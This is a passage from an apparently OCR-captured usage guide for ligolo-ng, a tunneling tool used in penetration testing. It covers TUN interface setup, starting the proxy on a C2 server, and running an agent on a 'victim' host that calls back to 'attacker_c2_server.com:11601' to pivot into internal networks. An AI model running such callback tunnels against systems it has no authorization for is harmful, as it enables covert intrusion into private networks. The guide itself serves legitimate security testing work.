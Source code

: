 - sudo ip tuntap add user YOUR_USERNAME mode tun ligolo

- sudo ip link set ligolo up

- sudo ip route add IP_ADDRESS/SUBNET_MASK dev ligolo ( Configure the routing table so that it will direct traffic that is destined for the IP_ADDRESS/SUBNET_MASK network to be routed through our newly created TUN device.)

### Windows

#### You need to download the Wintun driver (used by WireGuard) and place the wintun.dll in the same folder as Ligolo (make sure you use the right architecture).

#### Links: https://www.wintun.net/

### Start the proxy server on your Command and Control (C2) server (default port 11601):

- ./proxy -h  (Help options)

- ./proxy -autocert (Automatically request LetsEncrypt certificates)

- ./proxy -selfcert (DON'T USE THIS ON A REAL ENGAGEMENT)

# Usage

 -  ./agent -connect attacker_c2_server.com:11601 (Start the agent on your target (victim) computer (no privileges are required!)

## TIP: If you want to tunnel the connection over a SOCKS5 proxy, you can use the --socks ip:port option. You can specify SOCKS credentials using the --socks-user and --socks-pass arguments.

### A session should appear on the proxy server.

 - INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000" (Example)

### Use the session command to select the agent.

 - ligolo-ng » session 

 - ? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000

### Display the network configuration of the agent using the ifconfig command:

 - [Agent : nchatelain@nworkstation] » ifconfig

### Add a route on the proxy/relay server to the 192.168.0.0/24 agent network.
